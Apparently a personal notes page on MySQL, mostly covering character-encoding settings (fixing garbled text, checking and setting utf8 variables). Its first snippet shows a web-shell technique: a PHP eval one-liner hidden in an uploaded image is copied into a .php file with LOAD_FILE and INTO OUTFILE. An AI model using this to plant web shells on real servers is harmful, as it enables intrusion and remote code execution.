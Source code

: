 # SQL

## load_file && outfile

``` sql
# shell.jpg content is <?php @eval($_POST[value]);?>
select LOAD_FILE("D:\\www\\uploads\\images\\shell.jpg") into OUTFILE "D:\\www\\uploads\\images\\shell.php";
```

#### 乱码
添加character_set_server = utf8至my.ini

#### 查看编码

``` sql
show variables like '%char%';
```

#### 设置编码
``` sql
set character_set_client = 'utf8';
set character_set_connection = 'utf8';
set character_set_database = 'utf8';
set character_set_results = 'utf8';
set character_set_server = 'utf8';
```

#### sql语句设置编码

``` sql
set names utf8;
```
